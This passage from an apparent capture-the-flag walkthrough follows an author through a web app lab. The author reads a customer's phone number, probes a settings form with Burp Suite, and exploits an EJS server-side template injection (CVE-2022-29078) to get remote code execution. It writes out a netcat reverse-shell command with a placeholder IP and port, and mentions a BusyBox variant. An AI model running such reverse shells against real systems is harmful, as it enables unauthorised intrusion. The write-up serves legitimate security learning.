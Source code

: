 Let’s look for an entry which has the name `Tyrell Wellick` using the search tab while logged in to the user `Gayle Bev`.

We found the phone number of Tyrell Wellick:

```
Answer (Redacted): 842-0**-****
```

Tyrell Wellick → “Man! Now they have my phone number” 😂

**Next up:** What is the `user.txt` flag?

## Gaining Foothold

While still being logged in as user `Gayle Bev`, we are able to now access the Settings page as user `Gayle Bev`. In the customer settings page, there are two entries:

- Enter a Customer Name
- Enter a New Password

Now keeping in mind that there are a lot of customer names on the home page, I tried entering the individual name and tried entering a new password, so that I can use these credentials to log into that account, just like we did earlier, but it doesn’t work that way.

Time to use our favorite tool → Burp Suite.

Sending the request to Burp Suite as `user:pass` → `admin:admin`. User and password can be set to anything. Let’s get our request to Repeater in Burp Suite.

After sending the request to Repeater and sending the request, we see a `200 OK` return. Let’s play with the parameters of password from `password` to `passworda`. You can also remove the placeholder password. The objective here is to return an error code (`500`).

We found `/home/web/app/views/settings.ejs`. The file path `/home/web/app/views/settings.ejs` likely points to an EJS (Embedded JavaScript) template file used in a Node.js or Express.js web application.

After doing a little research, I found an EJS SSTI vulnerability:

[CVE-2022-29078] → EJS Server Side Template Injection RCE → PoC (Link to the writeup below)

[EJS, Server side template injection RCE (CVE-2022-29078) - writeup](https://eslam.io)

For some reason, Medium doesn’t allow to show the RCE command on this post but you can take the reference from this section.

In this PoC, we are using port `1337`, but for this writeup, I will be using port `1234` for the reverse shell. You can continue with the default one if you want.

Don’t forget to start the Netcat session:

For this case, replacing the reverse shell used in PoC → `nc -e sh IP-address PORT` by that of BusyBox from `revshells.com` gave us the reverse shell successfully.

We are now going to get the web reverse shell from the PoC using the BusyBox `nc` command.

Let’s upgrade our reverse shell to TTY. Upgrading to a TTY (teletype) shell allows you to interact with it more reliably.
